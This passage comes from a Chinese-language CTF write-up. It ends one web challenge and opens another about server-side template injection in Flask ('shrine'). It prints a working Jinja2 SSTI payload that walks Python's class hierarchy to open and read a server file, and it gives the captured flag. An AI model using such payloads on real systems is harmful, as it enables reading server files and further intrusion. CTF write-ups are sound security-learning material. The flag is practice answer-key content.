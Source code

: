 
- 最后`{{''.__class__.__mro__[2].__subclasses__()[40]('fl4g').read()}}`

<img src="images/image-20210204235132927.png" alt="image-20210204235132927" style="zoom:67%;" />

flag就拿到了。

`ctf{f22b6844-5169-4054-b2a0-d95b9361cb57}`

## 七. SSTI模块注入

> 题目来源：攻防世界 web 高手进阶区 shrine
>
> 知识点涉及：
>
> - [ ] SSTI模块注入
> - [ ] flask框架

一. 题目描述：

![image-20210205165415902](images/image-20210205165415902.png)

是一段没有修饰的python代码，直接查看网页源代码：
